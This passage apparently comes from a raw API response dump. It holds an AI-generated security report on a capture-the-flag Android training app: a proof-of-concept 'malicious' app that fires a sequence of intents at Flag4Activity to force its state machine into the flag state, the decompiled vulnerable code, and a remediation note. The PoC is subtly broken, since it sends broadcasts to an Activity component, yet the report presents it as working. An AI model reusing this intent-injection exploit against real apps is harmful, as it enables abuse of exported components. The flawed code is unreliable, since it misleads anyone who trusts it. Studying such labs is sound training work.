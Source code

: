 </manifest>\n```\n\n```java\npackage com.example.maliciousapp;\n\nimport android.app.Activity;\nimport android.content.ComponentName;\nimport android.content.Context;\nimport android.content.Intent;\nimport android.os.Bundle;\nimport android.util.Log;\n\npublic class MainActivity extends Activity {\n\n    private static final String TARGET_PACKAGE = "io.hextree.attacksurface";\n    private static final String TARGET_ACTIVITY = "io.hextree.attacksurface.activities.Flag4Activity";\n\n    private static final String PREPARE_ACTION = "PREPARE_ACTION";\n    private static final String BUILD_ACTION = "BUILD_ACTION";\n    private static final String GET_FLAG_ACTION = "GET_FLAG_ACTION";\n\n    @Override\n    protected void onCreate(Bundle savedInstanceState) {\n        super.onCreate(savedInstanceState);\n\n        sendIntent(PREPARE_ACTION);\n        sendIntent(BUILD_ACTION);\n        sendIntent(GET_FLAG_ACTION);\n        sendIntent("TRIGGER_FLAG"); // Any intent after GET_FLAG\n\n        finish(); // Close the malicious activity\n    }\n\n    private void sendIntent(String action) {\n        Intent intent = new Intent();\n        intent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        intent.setAction(action);\n        sendBroadcast(intent);\n        Log.d("MaliciousApp", "Sent intent: " + action);\n    }\n}\n```\n\n### **Vulnerable Code Snippet (Evidence)**\n**This section provides the evidence for *why* the PoC works.**\n- **File:** `sources/io/hextree/attacksurface/activities/Flag4Activity.java`\n- **Function/Method:** `stateMachine`\n- **Line Number (Approximate):** `53-85`\n\n```java\npublic void stateMachine(Intent intent) {\n    String action = intent.getAction();\n    int i = C09461.f219x85940635[getCurrentState().ordinal()];\n    if (i != 1) {\n        if (i != 2) {\n            if (i != 3) {\n                if (i == 4) {\n                    this.f179f.addTag(State.GET_FLAG);\n                    setCurrentState(State.INIT);\n                    success(this);\n                    Log.i("Flag4StateMachine", "solved");\n                    return;\n                }\n                if (i == 5 && "INIT_ACTION".equals(action)) {\n                    setCurrentState(State.INIT);\n                    Toast.makeText(this, "Transitioned from REVERT to INIT", 0).show();\n                    Log.i("Flag4StateMachine", "Transitioned from REVERT to INIT");\n                    return;\n                }\n            } else if ("GET_FLAG_ACTION".equals(action)) {\n                setCurrentState(State.GET_FLAG);\n                Toast.makeText(this, "Transitioned from BUILD to GET_FLAG", 0).show();\n                Log.i("Flag4StateMachine", "Transitioned from BUILD to GET_FLAG");\n                return;\n            }\n        } else if ("BUILD_ACTION".equals(action)) {\n            setCurrentState(State.BUILD);\n            Toast.makeText(this, "Transitioned from PREPARE to BUILD", 0).show();\n            Log.i("Flag4StateMachine", "Transitioned from PREPARE to BUILD");\n            return;\n        }\n    } else if ("PREPARE_ACTION".equals(action)) {\n        setCurrentState(State.PREPARE);\n        Toast.makeText(this, "Transitioned from INIT to PREPARE", 0).show();\n        Log.i("Flag4StateMachine", "Transitioned from INIT to PREPARE");\n        return;\n    }\n    Toast.makeText(this, "Unknown state. Transitioned to INIT", 0).show();\n    Log.i("Flag4StateMachine", "Unknown state. Transitioned to INIT");\n    setCurrentState(State.INIT);\n}\n```\n\n### Remediation\nTo fix this vulnerability, the `success()` method should not be called simply based on the state. Instead, it should require a specific action or condition to be met while in the `GET_FLAG` state. For example, a specific intent with a specific extra could be required.\n```\n')], role='model'), citation_metadata=CitationMetadata(citations=[Citation(end_index=3163, license=None, publication_date=None, start_index=3025, title=None, uri='https://github.com/chenxuan2018/ParkNow'), Citation(end_index=3330, license=None, publication_date=None, start_index=3162, title=None, uri='https://github.com/abdawoud/ex07'), Citation(end_index=3632, license=None, publication_date=None, start_index=3289, title=None, uri='https://github.com/abdawoud/ex07'), Citation(end_index=3816, license=None, publication_date=None, start_index=3624, title=None, uri='https://fr.scribd.com/document/508082195/Part-1-Support-Developpement-Mobile-Natif-Android'), Citation(end_index=3964, license=None, publication_date=None, start_index=3827, title=None, uri='https://github.com/matteodalgrande/Mobile-and-IoT-Security-CTF'), Citation(end_index=4091, license=None, publication_date=None, start_index=3960, title=None, uri='http://blog.csdn.net/l_yqing/article/details/7931721')]), finish_message=None, token_count=None, finish_reason=<FinishReason.STOP: 'STOP'>, url_context_metadata=None, avg_logprobs=-0.0498743072051923, grounding_metadata=None, index=None, logprobs_result=None, safety_ratings=None)], create_time=None, response_id=None, model_version='gemini-2.0-flash', prompt_feedback=None, usage_metadata=GenerateContentResponseUsageMetadata(cache_tokens_details=None, cached_content_token_count=None, candidates_token_count=1933, candidates_tokens_details=[ModalityTokenCount(modality=<MediaModality.TEXT: 'TEXT'>, token_count=1933)], prompt_token_count=17329, prompt_tokens_details=[ModalityTokenCount(modality=<MediaModality.TEXT: 'TEXT'>, token_count=17329)], thoughts_token_count=None, tool_use_prompt_token_count=None, tool_use_prompt_tokens_details=None, total_token_count=19262, traffic_type=None), automatic_function_calling_history=[], parsed=None)
